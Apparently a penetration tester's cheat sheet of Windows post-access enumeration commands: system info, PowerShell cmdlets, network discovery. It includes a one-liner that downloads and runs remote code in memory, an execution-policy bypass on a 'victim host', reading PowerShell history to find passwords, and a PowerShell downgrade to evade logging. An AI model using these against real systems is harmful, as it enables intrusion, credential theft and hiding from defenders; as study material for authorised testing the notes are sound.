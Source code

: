 #### Basic Enumeration Commands

| **Command**                                             | **Result**                                                                                 |
| ------------------------------------------------------- | ------------------------------------------------------------------------------------------ |
| `hostname`                                              | Prints the PC's Name                                                                       |
| `[System.Environment]::OSVersion.Version`               | Prints out the OS version and revision level                                               |
| `wmic qfe get Caption,Description,HotFixID,InstalledOn` | Prints the patches and hotfixes applied to the host                                        |
| `ipconfig /all`                                         | Prints out network adapter state and configurations                                        |
| `set`                                                   | Displays a list of environment variables for the current session (ran from CMD-prompt)     |
| `echo %USERDOMAIN%`                                     | Displays the domain name to which the host belongs (ran from CMD-prompt)                   |
| `echo %logonserver%`                                    | Prints out the name of the Domain controller the host checks in with (ran from CMD-prompt) |
| `systeminfo`                                            | Covers all above commands                                                                  |
# Using PowerShell
| **Cmd-Let**                                                                                                                | **Description**                                                                                                                                                                                                                               |
| -------------------------------------------------------------------------------------------------------------------------- | --------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| `Get-Module`                                                                                                               | Lists available modules loaded for use.                                                                                                                                                                                                       |
| `Get-ExecutionPolicy -List`                                                                                                | Will print the [execution policy](https://docs.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about_execution_policies?view=powershell-7.2) settings for each scope on a host.                                         |
| `Set-ExecutionPolicy Bypass -Scope Process`                                                                                | This will change the policy for our current process using the `-Scope` parameter. Doing so will revert the policy once we vacate the process or terminate it. This is ideal because we won't be making a permanent change to the victim host. |
| `Get-ChildItem Env: \| ft Key,Value`                                                                                       | Return environment values such as key paths, users, computer information, etc.                                                                                                                                                                |
| `Get-Content $env:APPDATA\Microsoft\Windows\Powershell\PSReadline\ConsoleHost_history.txt`                                 | With this string, we can get the specified user's PowerShell history. This can be quite helpful as the command history may contain passwords or point us towards configuration files or scripts that contain passwords.                       |
| `powershell -nop -c "iex(New-Object Net.WebClient).DownloadString('URL to download the file from'); <follow-on commands>"` | This is a quick and easy way to download a file from the web using PowerShell and call it from memory.                                                                                                                                        |
## Downgrade Powershell
Powershell event logging was introduced with version 3.0 onwards. If  #evasive required, we can try to downgrade Powershell.
```powershell
PS > Get-host
PS > powershell.exe -version 2
```
All executed commands are logged in `Applications and Services Logs` > `Microsoft` > `Windows` > `PowerShell` > `Operational`. 
# Network Information
| **Networking Commands**              | **Description**                                                                                                  |
| ------------------------------------ | ---------------------------------------------------------------------------------------------------------------- |
| `arp -a`                             | Lists all known hosts stored in the arp table.                                                                   |
| `ipconfig /all`                      | Prints out adapter settings for the host. We can figure out the network segment from here.                       |
| `route print`                        | Displays the routing table (IPv4 & IPv6) identifying known networks and layer three routes shared with the host. |
| `netsh advfirewall show allprofiles` | Displays the status of the host's firewall. We can determine if it is active and filtering traffic.              |
>`arp -a` and `route print` could discover new pivots to different network segments in any environment.
# [[WMIC]]
# [[Net]]
# [[Dsquery]]